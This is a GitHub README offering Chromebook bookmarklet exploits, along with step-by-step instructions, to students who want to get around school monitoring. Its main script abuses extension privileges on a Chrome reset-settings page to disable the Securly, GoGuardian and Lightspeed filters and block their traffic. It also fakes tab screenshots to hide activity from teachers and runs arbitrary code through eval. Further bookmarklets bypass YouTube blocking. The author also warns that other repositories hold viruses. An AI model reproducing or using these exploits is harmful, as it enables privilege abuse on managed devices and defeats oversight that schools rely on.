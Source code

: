 # PUBLIC
please do not download any files from my github account that don't have tutorials on them, most of them are viruses. see [here](https://github.com/Sreekar617/mvhs_moment) for more details

## Tools for teachers and responsible students. If you do not have a brain, turn back now. This repo is only for people with brains.
## I do not condone any misuse of the tools included here. Use responsibly and at your own risk.
## Everything on this page is for educational purposes to see how far we can push Chrome OS, the pathetic excuse for an operating system that runs on pathetic excuses for computers.

<details>

<summary><b>blow up securly</b></summary>

1. Bookmark any page
2. Copy the code below
```
javascript:document = window.document; var launcher, swamp; (swamp = { background: opener.chrome.extension.getBackgroundPage(), save: function () { localStorage.swamp = document.getElementById("code").value; }, elements: { create(e, t) { var o = document.createElement(e.tag), a = swamp.strings[t?.id] || swamp.strings; for (var i in e) o[i] = i.startsWith("on") ? swamp.functions[e[i]] : e[i]; !e.kids && a[o.id] && (o.innerHTML = a[o.id]), (t || document.body).appendChild(o), (swamp.elements[e.id] = o), e.kids?.forEach((e) => { swamp.elements.create(e, o); }); }, }, }), (document.documentElement.innerHTML = `<html> <body> <center> <head> <h1>[Point Blank Swap Launcher]</h1> <center><h1>---Disabling---</h1></center> <center><button id="soft">Soft Kill</button></center> <center><button id="hard">Hard Kill</button></center> <center><button id="cookies">Kill Extension By Cache</button></center> <center><button id="reload">Reload Blocker</button></center> <center> <hr/> <center><h1>---Scripts---</h1></center> <center> <select id="scripts"> <option> Pick  a script </option> <option value="dns"> Dns emulator </option> <option value="hide"> Hide Tabs from teachers </option> <option value="when"> Run Custom code on extension click </option> <option value="dnsonclick"> Toggle DNS Emulator on extension click </option> <option value="goofy"> Display Goofy Notification </option> <option value="policy"> Display Extension policy </option> <option value="google"> Open Cool Looking Window </option> <option value="visible"> Open Visible Window </option> </select> <button id="run_script">Run Script</button> <hr/> <center></center> <center> <center> <center><h3>Run scripts as background</h3></center> <h3 id="permissions"> </h3> <h5> You can see the apis your extension holds below If you want to be able to run scripts on chrome pages, go to chrome://flags/#extensions-on-chrome-urls and enable it from there, then restart. If you would like to run scripts directly on this page, use the button below, for the code you put for example chrome.tabs.create and for arguments you put {"url":"https://www.google.com"}, make sure not to use any parentheses, if you're going to do an alert use alert then for argument put  "Your message here". Now if you're using run on extension click, you can use regular code, and run as background is going to your scripts as background. Note: Running scripts on extension click may not work if your extension doesn't have one, we've confirmed this doesn't work for <li> Securly </li><li> Confirmed to work with Securly Classroom</li><li> Yet discoverered if this works for other extensions </li></h5> <textarea id="code" placeholder="Code Goes Here..."></textarea> <input id="args" placeholder="Arguments go here..."> </center> <center> <button id="when">Run on extension click</button> <button id="rundir">Run on this page</button> <button id="background">Run on this page as background</button> <button id="reset">Reset Background Scripts</button> </center> <center></center> </head> </center> </body> </html> <style> box-sizing: border-box; body { display: flex; justify-content: center; align-items: center; height: 100vh; margin: 0; transition: background 0.2s linear; } .checkbox { opacity: 0; position: absolute; } .label { width: 50px; height: 26px; background-color: #111; display: flex; border-radius: 50px; align-items: center; justify-content: space-between; padding: 5px; position: relative; transform: scale(1.5); } .ball { width: 20px; height: 20px; background-color: white; position: absolute; top: 2px; left: 2px; border-radius: 50%; transition: transform 0.2s linear; } .checkbox:checked + .label .ball { transform: translateX(24px); } textarea{border-radius: 25px; margin: 1 auto;margin-center: auto;margin-center: auto; text-align: center; align: center; display:inline-block;height:400px}*{box-sizing:border-box}body{padding:13px;font-size:110%;color:#fff;background-color:#2e2e31}h1{text-align:center;font-size:70px}h2{text-align:left;font-size:175%}input {border-radius: 6px; color:#000;font-size:15px} textarea {border-radius: 21px; color:#000;font-size:15px} button,pre { border-radius: 12px; color:#000;font-size:15px}h1,h2,h3,h4,button,label,p,select{font-family:Roboto,sans-serif}hr{border:none;border-bottom:3px solid #fff}input,kbd,pre,textarea{font-family:monospace;border:none}input,select{background-color:#fff;border-radius:15px; padding:13px 17px;border:none}button,input{background-color:#fff;padding:13px 100px;margin:20 5px 5px 0}input{width:600px;border-radius:10px}textarea{white-space:pre;float:center;width:60%;border-radius:25px; 0 0 10px;resize:none;background-color:#99edc3;margin-bottom:15px}pre{border-radius:25; 10px 10px 0;padding:13px;float:right;margin:0 0 25px;width:40%;overflow-y:scroll;word-break:break-all;white-space:pre-line;background-color:#1c8e40}button{border:none; cursor:pointer;transition:filter 250ms}button:hover{filter:brightness(.8)}.gg{background-color:#99edc3}a{color:#99edc3;transition:color 250ms}a:hover{color:#1c8e40}</style>%60), (document.getElementById("code").onkeydown = function () { localStorage.swamp = this.value; }); document.getElementById("reload").addEventListener("click", function () { if ( swamp.background.confirm( "Note that, this will close this tab and the tab that opened it, all your tabs will reload." ) ) { localStorage = {}; opener.chrome.runtime.reload(); } else { return; } }); document.getElementById("when").onclick = function () { swamp.save; opener.chrome.browserAction.onClicked.addListener(function () { opener.chrome.tabs.query( { active: true, currentWindow: true, }, (tab) => { opener.chrome.tabs.executeScript(tab[0].id, { code: document.getElementById("code").value, }); } ); }), alert( "Click your extension on any page to see your code, make sure your extension has a browser action for this to work." ); }; (document.getElementById("rundir").onclick = function () { var button = document.createElement("button"); button.textContent = ""; button.onclick = document.getElementById("code").value; document.body.appendChild(button); button.click(); }), document.getElementById("background").addEventListener( "click", function () { let command = document.getElementById("code").value; let argPrompt = command.replace("()", document.getElementById("code").value.split("\n")); let args = JSON.parse(%60[${argPrompt}]%60); let target = self; command.split(".").forEach((sub) => { target = target[sub]; }); target(...args); }, !1 ), document.getElementById("cookies").addEventListener( "click", function () { if ( confirm( "This will slow your device for a estimated time of 15 seconds, if this page freezes, you will still be able to navigate to other tabs, continue?" ) ) { for (var i = 0; i < localStorage.length; i++) if (localStorage.key(i) !== "swamp") localStorage[localStorage.key(i)] = this.undo ? "" : "-"; (swamp.background || window).location.reload(); } else { return; } }, !1 ), document.getElementById("hard").addEventListener("click", function () { ((this.background ? swamp.background : window).localStorage.cluster = "UNKNOWN_SCHOOL, " + Date.now() * 99999999999999), swamp.background.location.reload(); document.getElementById("hard").innerHTML = "Disabled!"; }), document.getElementById("soft").onclick = function () { opener.chrome.extension.getBackgroundPage().document.scripts.forEach((e) => { for (var o = 0; o < e.length; o++) { e[o].remove(); opener.chrome.extension.getBackgroundPage().location.reload(); } }); }; opener.chrome.runtime.getManifest().permissions.forEach((show) => { document.getElementById("permissions").innerHTML += %60<br> ${show} <br/>%60; }); document.getElementById("reset").addEventListener( "click", function () { (onbeforeunload = null), (location.href = opener.location.href); }, !1 ), document.getElementById("run_script").addEventListener( "click", function () { var scripts = document.getElementById("scripts"); if (scripts.value == "visible") { opener.chrome.tabs.captureVisibleTabAsync = opener.chrome.tabs.captureVisibleTabAsync || screenshot_old; opener.chrome.windows.getAllAsync = opener.chrome.windows.getAllAsync || get_tabs_old; clearInterval(spoof_int); if (spoof_int) { alert("Your teacher can now see all open tabs and windows!"); } spoof_int = null; } if (scripts.value == "dnsonclick") { function block() { return { redirectUrl: "javascript:" }; } var blocking = false; function toggle() { if (blocking) { opener.chrome.webRequest.onBeforeRequest.removeListener(block); } else { opener.chrome.webRequest.onBeforeRequest.addListener( block, { urls: [ "*://*.securly.com/*", "*://*.blocked.com/*", "*://*.lightspeedsystems.com/*", "*://*.goguardian.com/*", "*://*.blocking.com/*", "*://*.block.com/*", %60*chrome-extension://*${document.domain}/*blocking/*%60, %60chrome-extension://${document.domain}/blocked.html/*%60, "*/blocked/*", "*/block/*", "*/blocking/*", "/blocking/", ], }, ["blocking"] ); } blocking = !blocking; alert( "Emulated DNS unblocker is " + (blocking ? "on!" : "off! " + "You may close this tab, but not the extension tab") ); } toggle(); (this.background ? swamp.background : window ).opener.chrome.browserAction.onClicked.addListener(toggle); alert("Click your extension to toggle dns emulator"); } if (scripts.value == "dns") { opener.chrome.extension.getBackgroundPage().chrome.webRequest.onBeforeRequest.addListener( () => { return { redirectUrl: "javascript:" }; }, { urls: [ "*://*.securly.com/*", "*://*.blocked.com/*", "*://*.lightspeedsystems.com/*", "*://*.goguardian.com/*", "*://*.blocking.com/*", "*://*.block.com/*", "*://*.blocked/*", "*://*.block/*", "*://*.blocking/*", opener.location.href ], }, ["blocking"] ); alert( "Done, DNS Emulator has been turned on, you may close this tab, but not the extension tab" ); } if (scripts.value == "goofy") { opener.chrome.notifications.create(null, { iconUrl: "https://upload.wikimedia.org/wikipedia/en/9/9a/Trollface_non-free.png", type: "basic", title: %60Important Message%60, message: "We've been trying to reach you concerning your vehicle's extended warranty. You should've received a notice in the mail about your car's extended warranty eligibility. Since we've not gotten a response, we're giving you a final courtesy call before we close out your file. Press 2 to be removed and placed on our do-not-call list. To speak to someone about possibly extending or reinstating your vehicle's warranty, press 1 to speak with a warranty specialist. ", }); } if (scripts.value == "policy") { opener.chrome.storage.local.get("policy", function (json) { alert(JSON.stringify(json)); }); } if (scripts.value == "when") { document.getElementById("code").value = "eval(prompt('Code?'))"; document.getElementById("code").scrollIntoView(); } if (scripts.value == "hide") { var spoof_int, visible_id = 0, screenshot_old = screenshot_old || opener.chrome.tabs.captureVisibleTabAsync, get_tabs_old = get_tabs_old || opener.chrome.windows.getAllAsync, get_tabs_new = function () { return new Promise((resolve, reject) => { get_tabs_old({ populate: true, windowTypes: ["normal"], }).then((tabs) => { tabs.forEach((tab) => { if (tab.id === visible_id) resolve([tab]); }); }); }); }; opener.chrome.windows.create({ url: "https://google.com" }, (win) => { visible_id = win.id; spoof_int = setInterval(() => { opener.chrome.windows.getLastFocused((window) => { var visible = window.id === visible_id; opener.chrome.tabs.captureVisibleTabAsync = visible ? screenshot_old : null; opener.chrome.windows.getAllAsync = visible ? get_tabs_new : null; }); }, 5); }); } if (scripts.value == "google") { opener.chrome.windows.create({ url: "https://www.google.com", type: "popup", }); } }, !1 );
```
3. Right click on the bookmark, click on "edit"
4. Under the field labeled "URL", paste in the code.
5. Go to [this page.](https://tinyurl.com/goofcurly)
6. Click on "tests"
<img width="109" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/231223481-31e5be9f-80af-4721-b661-214721561481.png">

7. On the blank page that appears, click on the bookmark you created earlier.
8. I recommend clicking "Soft Kill", which resets every time you restart your chromebook. "Hard Kill" will not reset when you restart, but it breaks some other things.

</details>

  
<details>
  
  <summary><b>extension thingie for youtube</b></summary>
  
1. Copy the code below
  ```js
  javascript:opener.chrome.send("TurnOffSync");
  ```
2. Bookmark any random page
3. Right click on the bookmark, and hit "Edit"
4. Under the field labeled "URL", paste in the code
5. Visit chrome://settings/resetProfileSettings
6. Press on "current settings"
<img width="379" alt="current_settings" src="https://user-images.githubusercontent.com/115044820/230745894-49e77af2-b4e5-4441-b7d3-075c7674ff58.png">
  
7. On the new page that opens, click on the bookmark you created earlier.
8. visit chrome://restart, DO NOT RESTART YOUR CHROMEBOOK MANUALLY
9. repeat steps 5-8 every time it stops working.
10. if google sign-ins break, restart your device.

Go to youtube, click the lock next to the url, click on "cookies and site data", and delete all cookies. In a new tab, go to youtube. It should be unblocked.

</details>

<details>
  
<summary><b>Youtube trick for teachers</b></summary>
  
## Part 1: Saving the script
1. Copy the code below.
```
javascript:(function()%7Bvar theId %3D window.location.href%3Bvar theOtherId %3D window.location.href%3Bvar YouTube %3D "youtube"%3Bvar YouTube2 %3D "https%3A%2F%2Fyoutu.be%2F"%3Bvar YouTube3 %3D "http%3A%2F%2Fyoutu.be%2F"%3Bvar YouTube4 %3D "youtu.be%2F"%3Bif (theId.indexOf(YouTube) >%3D 0) %7Bvar string %3D theId.split('%3D')%3BtheId %3D string%5B1%5D%3B%7Dif (theId.indexOf(YouTube2) >%3D 0) %7Bvar sString %3D theId.split('%2F')%3BtheId %3D sString%5B3%5D%3B%7Dif (theId.indexOf(YouTube3) >%3D 0) %7Bvar ssString %3D theId.split('%2F')%3BtheId %3D ssString%5B3%5D%3B%7Dif (theId.indexOf(YouTube4) >%3D 0) %7Bvar sssString %3D theId.split('%2F')%3BtheId %3D sssString%5B3%5D%3B%7Dvar newId %3D theId.match(%2F.%7B1%2C11%7D%2Fg)%3Bvar otherId %3D theOtherId.split('%26')%3BotherId.splice(0%2C 1)%3Bvar otherPartId %3D "%3F" %2B otherId%5B0%5D%3BotherId.splice(0%2C 1)%3Bfor(i %3D 0%3B i<otherId.length%3B i%2B%2B)%7BotherPartId %2B%3D '%26'%3BotherPartId %2B%3D otherId%5Bi%5D%3B%7Dvar customLink %3D 'https%3A%2F%2Fwww.youtube-nocookie.com%2Fembed%2F' %2B newId%5B0%5D %2B otherPartId %2B '%26autoplay%3D1'%3Bwindow.location.href %3D '' %2B customLink%7D)()
```
2. Bookmark this page, then right click on the bookmark and hit "Edit"
3. Name it whatever you want.
4. Delete everything currently in the box labeled "URL"
5. Paste in the code you copied earlier
6. Press "Done" to save the script.
## Part 2: Executing the script
1. Navigate to any Youtube video
2. Click on the bookmark you created earlier
3. It should redirect you to an unblocked link
4. Share the current link with students. It should be unblocked.

</details>

i love rice
